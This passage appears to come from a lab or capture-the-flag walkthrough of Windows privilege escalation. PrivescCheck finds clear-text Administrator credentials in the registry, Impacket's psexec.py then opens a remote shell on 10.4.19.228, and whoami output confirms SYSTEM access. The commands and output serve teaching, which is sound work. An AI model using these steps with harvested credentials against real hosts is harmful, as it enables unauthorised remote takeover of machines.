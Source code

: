 **Explanation:** The `PrivescCheck.ps1` script is a tool that scans for common Windows misconfigurations that could allow privilege escalation. It identifies several vulnerabilities, including clear-text credentials stored in the registry, which is a critical finding that can be exploited to gain higher privileges.

<span style="color: #e57373;">**Attacker machine**</span>.

_Use PsExec to gain a shell on the target machine as the Administrator using the discovered credentials._

`psexec.py Administrator@10.4.19.228`:
```
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password: ←
[*] Requesting shares on 10.4.19.228.....
[*] Found writable share ADMIN$
[*] Uploading file duKQhBxL.exe
[*] Opening SVCManager on 10.4.19.228.....
[*] Creating service KuaL on 10.4.19.228.....
[*] Starting service KuaL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.
```

**Explanation:** PsExec is a powerful tool used to execute processes on remote systems. Here, the attacker uses the administrator credentials obtained from the `PrivescCheck` script to open a remote shell with elevated privileges on the target machine.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Verify that the attacker has successfully escalated privileges to the SYSTEM account._

`whoami`:
```
nt authority\system ←
```

_List the privileges available to the SYSTEM account to confirm full control._

`whoami /priv`:
```
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
```
